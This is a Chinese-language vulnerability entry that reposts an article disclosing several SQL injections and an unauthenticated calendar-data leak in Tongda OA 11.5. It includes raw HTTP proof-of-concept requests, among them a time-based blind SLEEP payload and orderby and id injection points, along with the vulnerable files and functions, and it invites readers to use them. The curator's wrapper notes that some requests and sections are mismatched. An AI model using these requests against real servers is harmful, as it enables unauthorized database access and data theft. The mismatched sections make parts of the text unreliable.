# 通达OA 11.5多处SQL 注入及日程未授权

## 条目说明

- 对象与具体问题：通达OA；11.5多处SQLi及日程未授权
- 版本、配置及部署条件：11.5 20200417实测；其他版本猜测
- 认证与权限前提：多数需普通账号
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 1/2节混入其他请求，3节orderby SQLi却粘贴日程URL，路由与根因错位
- RANDNUM/SLEEPTIME占位未实例化；时间参数变成×tamp
- 需分calendar、sentbox、inbox、repdetail、get_cal_list实体；历史0day应标日期

## 操作风险

延迟探测可能占用数据库连接或影响服务。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/lAm-gzqNguFXhSojFFQxDA)

  

之前曝光过通达 OA 0day 我这里就不曝了，截止到发帖时，下面的漏洞都是未正式公开的。  
**影响范围:**  
我测试的是通达 OA11.5 版本，也就是 2020 年 04 月 17 日发布的，其他版未测，但我想也会有吧。  



  
HW 这几天看到大家对通达 OA 的热情度很高，正好今天有空，下载了一个通达 OA 11.5 版本下来做代码审计，通达 OA 的代码是加密的，所以需要一个 SeayDzend 工具解密，百度上就能找到。  



  
解密后，对代码的各个模块都大致看了一下，很快就发现多处都存在 SQL 注入漏洞，仔细看了之前的曝光的文章，发现这些漏洞并未曝光，也未预警，也属于 0day 漏洞吧。  
不多说，直接上 POC，有需要的可以先拿到用了。  
**0x001 SQL 注入 POC:**

```http
POST /general/appbuilder/web/calendar/calendarlist/getcallist HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Referer: http://192.168.202.1/portal/home/
Cookie: PHPSESSID=54j5v894kbrm5sitdvv8nk4520; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c9e143ff
Connection: keep-alive
Host: 192.168.43.169
Pragma: no-cache
X-Requested-With: XMLHttpRequest
Content-Length: 154
X-WVS-ID: Acunetix-Autologin/65535
Cache-Control: no-cache
Accept: */*
Origin: http://192.168.43.169
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

starttime=AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])---&endtime=1598918400&view=month&condition=1
```

> 请求长度说明：原资料 Content-Length 为 154；保留原始标头；其数值未据实际请求体重新计算或验证。

```http
GET /general/email/sentbox/get_index_data.php?asc=0&boxid=&boxname=sentbox&curnum=3&emailtype=ALLMAIL&keyword=sample%40email.tst&orderby=1&pagelimit=20&tag=×tamp=1598069133&total= HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.43.169/
Cookie: PHPSESSID=54j5v894kbrm5sitdvv8nk4520; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c9e143ff
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Host: 192.168.43.169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Connection: close
```



  
漏洞文件：**webroot\general\appbuilder\modules\calendar\models\Calendar.php**。  
**get_callist_data 函数**接收传入的 begin_date 变量未经过滤直接拼接在查询语句中造成注入。  



  
利用条件：  
一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入。  
  
**0x002 SQL 注入 POC:**  
漏洞参数：orderby

```http
GET /general/email/inbox/get_index_data.php?asc=0&boxid=&boxname=inbox&curnum=0&emailtype=ALLMAIL&keyword=&orderby=3--&pagelimit=10&tag=×tamp=1598069103&total= HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.43.169
Cookie: PHPSESSID=54j5v894kbrm5sitdvv8nk4520; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c9e143ff
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Host: 192.168.43.169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Connection: close
```

```http
GET /general/appbuilder/web/report/repdetail/edit?link_type=false&slot={}&id=2 HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.43.169
Cookie: PHPSESSID=54j5v894kbrm5sitdvv8nk4520; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c9e143ff
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Host: 192.168.43.169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Connection: close
```



  
漏洞文件：**webroot\inc\utility_email.php，get_sentbox_data** 函数接收传入参数未过滤，直接拼接在 order by 后面了造成注入。  



  
利用条件：  
一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入。  
**0x003 SQL 注入 POC:**  
漏洞参数：orderby

```
http://127.0.0.1/general/calendar/arrange/get_cal_list.php?starttime=1548058874&endtime=1597997506&view=agendaDay
```





  
漏洞文件：**webroot\inc\utility_email.php，get_email_data** 函数传入参数未过滤，直接拼接在 order by 后面了造成注入。  



  
利用条件：  
一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入。  
**0x004 SQL 注入 POC:**  
漏洞参数：id

```http
GET /general/appbuilder/web/report/repdetail/edit?link_type=false&slot={}&id=2 HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.43.169
Cookie: PHPSESSID=54j5v894kbrm5sitdvv8nk4520; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c9e143ff
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Host: 192.168.43.169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Connection: close
```





  
漏洞文件：**webroot\general\appbuilder\modules\report\controllers\RepdetailController.php**，**actionEdit 函数**中存在 一个 $_GET["id"];  未经过滤，拼接到 SQL 查询中，造成了 SQL 注入。  



  
利用条件：  
一枚普通账号登录权限，但测试发现，某些低版本也无需登录也可注入。  
**0x005 未授权访问:**  
未授权访问各种会议通知信息，POC 链接：

```
http://127.0.0.1/general/calendar/arrange/get_cal_list.php?starttime=1548058874&endtime=1597997506&view=agendaDay
```

  

**END.**

**欢迎转发~**

**欢迎关注~**

**欢迎点赞~**


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
